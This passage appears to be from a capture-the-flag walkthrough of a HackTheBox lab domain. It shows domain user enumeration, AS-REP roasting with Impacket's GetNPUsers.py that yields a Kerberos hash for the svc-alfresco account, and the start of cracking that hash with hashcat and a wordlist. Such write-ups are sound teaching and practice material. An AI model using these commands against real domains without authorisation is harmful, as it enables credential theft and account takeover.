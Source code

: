 ```shell
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]

```

It looks like we find another user `svc-alfresco`, let's add it to our list and run `GetNPUsers.py` again.

```shell
$ GetNPUsers.py 'htb.local/' -usersfile users.lst -no-pass -dc-ip htb.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5d2ddc1fe2a1c77d9eb9597a4b64911a$8142786484d4917cc44d1a82ab991ffc217b710001caadf97251d300dd1d34d59d581f73348474ca688138fb6c4fedf6022141cea3ab7f97450990e7c0c12b9e2b88a2af6d047bf823622b017661caf2962ea77ed81b2043d00fe14952cd7e73c3eb50666fc8d0014fee1df2ff9e350423bcfb18702e88bcedbf8a85d17d51ff6e7eae55dbe6e97d888e179c0da4ad756d293291fab0ce249d62dec58b3d4cc73a93959ada906f753ea7bc9357d515aabc58a7bf7d0e5e03b7f92c38ed02895d147af275ffd87eb556eb891004b017c21fdb5756b960e9f3cbc8409517abfe0d860961f0dcc6
```

Great! We got the hash of the account `svc-alfresco`, let's crack using hashcat:

### hashcat

```shell
$ hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt      
hashcat (v6.1.1) starting...
                                                                               
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5 CPU       M 520  @ 2.40GHz, 2726/2790 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
```